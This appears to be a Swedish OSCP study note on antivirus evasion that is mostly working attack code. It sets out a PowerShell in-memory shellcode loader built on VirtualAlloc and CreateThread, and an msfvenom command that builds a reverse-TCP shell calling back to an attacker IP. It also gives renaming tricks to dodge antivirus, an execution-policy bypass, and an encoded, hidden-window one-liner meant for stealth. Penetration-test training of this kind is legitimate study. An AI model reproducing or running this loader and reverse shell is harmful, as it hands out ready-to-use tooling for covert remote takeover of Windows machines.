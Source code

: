 ```yaml
---
{"dg-publish":true,"permalink":"/oscp/g-antivirus-evasion/2-manual-thread-injection/","updated":"2024-01-05T11:34:45.426+01:00"}
---
```


### In-memory Thread Injection Using Powershell:

1. Skapa ps1-skript med följande kod:
```powershell
$code = '
[DllImport("kernel32.dll")]
public static extern IntPtr VirtualAlloc(IntPtr lpAddress, uint dwSize, uint flAllocationType, uint flProtect);

[DllImport("kernel32.dll")]
public static extern IntPtr CreateThread(IntPtr lpThreadAttributes, uint dwStackSize, IntPtr lpStartAddress, IntPtr lpParameter, uint dwCreationFlags, IntPtr lpThreadId);

[DllImport("msvcrt.dll")]
public static extern IntPtr memset(IntPtr dest, uint src, uint count);';

$winFunc = 
  Add-Type -memberDefinition $code -Name "Win32" -namespace Win32Functions -passthru;

[Byte[]];
[Byte[]]$sc = <place your shellcode here>;

$size = 0x1000;

if ($sc.Length -gt 0x1000) {$size = $sc.Length};

$x = $winFunc::VirtualAlloc(0,$size,0x3000,0x40);

for ($i=0;$i -le ($sc.Length-1);$i++) {$winFunc::memset([IntPtr]($x.ToInt32()+$i), $sc[$i], 1)};

$winFunc::CreateThread(0,0,$x,0,0,0);for (;;) { Start-sleep 60 };
```
2. Generera payload med msfvenom enligt följande:
```bash
msfvenom -p windows/shell_reverse_tcp LHOST=192.168.50.1 LPORT=443 -f powershell -v sc
```
3. Byt ut variabelnamn på t.ex. $winFunc och $sc till mer generiska namn för att ungå AVs. Byt även ut namnet på class-namnet från "Win32" till något annat.
4. Sätt upp lyssnare och exekvera skriptet på valfritt sätt genom powershell (x86).
5. Om det inte tillåts pga execution policies ändra genom:
```powershell
Set-ExecutionPolicy -ExecutionPolicy Unrestricted -Scope CurrentUser
```

------------

### One-liner genom encodedCommand:

Använd https://github.com/darkoperator/powershell_scripts/tree/master och generera en base-64 sträng med hela skriptet genom:
```bash
python3 ps_encoder.py -s malware.ps1
```
Kör sedan commandot i powershell genom:
```powershell
powershell.exe -encodedCommand ...ByAHQALQBzAGwAZQBlAHAAIAA2ADAAIAB9ADsACgA=
```
Extra secrecy:
```powershell
powershell.exe -NoP -NonI -W Hidden -Exec Bypass -encodedCommand
```
